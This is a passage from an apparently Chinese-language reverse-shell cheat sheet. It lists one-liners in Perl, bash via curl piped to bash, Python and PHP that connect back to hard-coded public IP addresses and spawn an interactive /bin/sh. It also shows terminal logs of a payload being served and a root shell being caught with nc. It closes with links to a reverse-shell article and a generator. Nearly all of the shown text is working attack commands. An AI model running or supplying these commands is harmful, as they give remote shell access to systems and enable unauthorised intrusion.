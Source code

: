   `perl -e 'use Socket;$i="47.101.214.85";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- Curl
  
  控制端
  ```sh
  root@VM-0-2-ubuntu:~# cat index.html
  bash -i >& /dev/tcp/139.155.49.43/6666 0>&1
  
  root@VM-0-2-ubuntu:~# python3 -m http.server
  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  47.101.214.85 - - [03/Dec/2020 09:21:39] "GET /1.sh HTTP/1.1" 200 -
  ```
  
  被控端
  ```sh
  curl 139.155.49.43:8000|bash
  
  root@VM-0-2-ubuntu:~# nc -lvvp 6666
  Listening on [0.0.0.0] (family 0, port 6666)
  Connection from 47.101.214.85 46370 received!
  root@iZuf6j06q5f1lZ:~#
  ```
- Python
  ```sh
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- PHP
  ```sh
  php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

### 6、Refer

  `https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998`

<br/>

### 7、生成shell反弹指令

网址：`https://weibell.github.io/reverse-shell-generator/`
